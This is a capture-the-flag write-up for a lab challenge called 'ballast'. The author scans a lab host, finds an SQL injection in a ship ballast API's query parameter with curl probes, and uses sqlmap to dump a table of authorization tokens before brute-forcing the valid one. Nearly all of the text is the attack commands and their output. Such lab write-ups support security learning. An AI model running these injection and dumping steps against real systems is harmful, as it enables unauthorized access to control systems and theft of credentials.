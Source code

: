 # ballast

## Challenge

```
We need as many options to stop this boat as we can find! If you can figure out a way to sabotage it instead of just taking control of the navigation, that'll work too!

Target: Your target is the authorization code to control the ballast system.

10.0.1.11
```

## Walkthrough

```sh
$ sudo nmap 10.0.1.11 -sS -v -A -p 0-65535
...
Discovered open port 22/tcp on 10.0.1.11
Discovered open port 31968/tcp on 10.0.1.11
Discovered open port 3002/tcp on 10.0.1.11
...
3002/tcp  open  http        nginx
|_http-title: OpenBridge :: Index
...
31968/tcp open  ssl/unknown
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.1 404 Not Found
...
```

There were 2 HTTP servers running on the machine. Visiting each server showed that `:3002` was running a different challenge. `:31968` was what I needed to exploit.

Navigating to `:31968` provided a convenient swagger definitions page behind a warning page due to the self signed certificate.

![get](get.png)
![post](post.png)

Clearly I needed to exploit the `GET /ballast` in order to find the auth token.

I played around with some different invalid inputs to get a feel for what I thought that exploit might be.


```sh
$ curl -k 'https://10.0.1.11:31968/ballast?rt=123' 
[{"readTime":"2022-01-16T00:56:14Z","statusRaw":972035,"port":97,"stbd":97}]

$ curl -k 'https://10.0.1.11:31968/ballast?rt=abcd'
[]

$ curl -k 'https://10.0.1.11:31968/ballast?rt=--abcd'
[{"readTime":"2022-01-16T00:56:14Z","statusRaw":972035,"port":97,"stbd":97}]   
```

After noticing that an invalid input lead to an empty json array I tried placing the string after an SQL comment `--`. This worked, giving away that the issue was likely SQLI.

To exploit the SQLI I brought out `sqlmap`, an automatic SQLI exploiting tool. I had to run it through an HTTP proxy since `sqlmap` doesn't support an insecure mode where certificates aren't checked.

```sh
$ sqlmap -u 'https://10.0.1.11:31968/ballast?rt=1' --proxy="http://localhost:8080" --level 5 --risk 3 --threads 10 --tables
...
[2 tables]
+--------+
| auth   |
| sensor |
+--------+
...

$ sqlmap -u 'https://10.0.1.11:31968/ballast?rt=1' --proxy="http://localhost:8080" --level 5 --risk 3 --threads 10 -T auth
...
Table: auth
[31 entries]
+------------------+------+
| auth             | code |
+------------------+------+
| 7c891300d29ee171 | 1    |
| d4e26453da9da0da | 2    |
| c4bb7fbedcd289f9 | 3    |
| f2fa13a69c41edd3 | 4    |
| 5a834caf9aa572f2 | 5    |
| 265f6855da808fee | 6    |
| af0a0ebbd8d06805 | 7    |
| 1a3bdc9e354595b3 | 8    |
| 0dcded01a3ef45b3 | 9    |
| 396324979803a664 | 10   |
| 87fd4e2c33578122 | 11   |
| ba418662d921ca86 | 12   |
| 274d080f89b03da1 | 13   |
| 6433c4059f5ac1d5 | 14   |
| 4110cf37d60ac7a5 | 15   |
| b6af0a74f1787e3a | 16   |
| 162aebf2755e2f42 | 17   |
| 6d2af8874200f1f7 | 18   |
| fe142ee05fbdf046 | 19   |
| c17a5d2a0857c687 | 20   |
| 7b3ced5924e1beed | 21   |
| 7245a54b379f996a | 22   |
| 5180e6aaa397fb6a | 23   |
| 17d3cf64165ac676 | 24   |
| 60d9051cbc7df99e | 25   |
| c661182f67edb4a8 | 26   |
| 4af257c2e1529722 | 27   |
| b5ea4144e885b1db | 28   |
| 7a92ebfcd8e93047 | 29   |
| a4f494fa78df7a39 | 30   |
| 61e521c49e0d13a5 | 31   |
+------------------+------+
...
```

And this is where I ran out of time :( However I continued to solve the challenge after the timer was up.

I created a python script to try every auth token and find which was correct. [authcheck.py](authcheck.py)

```
$ python3 authcheck.py
...
b6af0a74f1787e3a 202
```

So close!

## Solve

token: `b6af0a74f1787e3a`
